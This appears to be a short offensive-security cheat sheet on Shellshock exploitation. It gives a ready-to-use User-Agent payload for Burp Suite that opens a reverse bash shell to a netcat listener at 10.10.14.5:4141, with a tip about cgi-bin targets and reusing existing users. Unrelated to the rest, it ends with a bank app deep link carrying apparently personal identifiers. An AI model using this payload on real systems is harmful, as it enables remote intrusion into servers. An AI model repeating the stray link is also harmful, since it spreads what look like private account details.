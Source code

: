 <h1>Vulnerabilities & exploitation</h1>


<h1>Shellshock</h1>

<h3>Burpsuite usage:</h3>

Use this payload in User-Agent to open a reverse shell to a netcat listener:
* () { :; };bash -i >& /dev/tcp/10.10.14.5/4141 0>&1 

- Note: You must have a target directory in cgi-bin and if you have credentials options, use an existing user. (root etc.)


https://poalimlinks.co.il/deeplink/?link=https://hapoalimOpen?activityType%3D2736%26pid%3D3f014321-343c-4cef-b75e-45af2db98f5d%26ownerName%3D15DXl9eZ15TXldeT%26partnerName%3D15jXnteZ16g=&apn=com.bnhp.openapp&isi=1454373103&ibi=com.hapoalim.open
